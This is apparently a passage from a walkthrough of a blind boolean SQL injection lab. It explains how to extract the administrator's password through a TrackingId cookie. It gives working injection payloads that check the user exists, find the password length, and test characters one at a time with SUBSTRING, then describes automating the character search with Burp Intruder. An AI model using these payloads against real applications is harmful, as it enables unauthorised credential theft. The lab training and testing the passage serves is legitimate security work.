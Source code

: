 ```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator') = 'a'--
```

If you receive the **Welcome back** message (or other true-response), the user exists and the condition evaluated true.

---

### 3) Determine password length (boolean greater-than)
Use `LENGTH(password)` to test whether the password length is greater than a value `N`. Example:

```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) > 3) = 'a'--
```

- Manually increment `N` (or automate with Intruder numeric payloads) to find the smallest `N` where the response changes from true → false (or vice versa).  
- You reported constant results (e.g., 3327) until 19, which indicates you iterated until the response flipped — the length is the value where `LENGTH(password) > N` ceases to be true.

---

### 4) Test single-character using `SUBSTRING`
To check the first character:

```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator') = 'a'--
```

- If **Welcome back** appears, the 1st character is `a`.
- If not, test next character `b`, `c`, ... `0`-`9`.

---

### 5) Automate character enumeration with Burp Intruder
Because manual testing is slow, you automated via Intruder:

#### A — Single position bruteforce (manual/Numbers payload)
- Place payload marker next to the numeric length check (e.g., `... AND LENGTH(password) > §3§ ) = 'a'--`).
- Use **Payload type**: `Numbers` (if brute-forcing numeric lengths) or `Simple list` for characters.
- Result: You observed length results until a particular boundary (e.g., 19).

#### B — Per-position character brute force (ClusterBomb)
To enumerate characters position-by-position, use `SUBSTRING(password, i, 1)` and ClusterBomb:

- Example payload template for position `i` (cookie):

```
TrackingId=xyz' AND (SELECT SUBSTRING(password,§POS§,1) FROM users WHERE username='administrator') = '§CHAR§'--
```
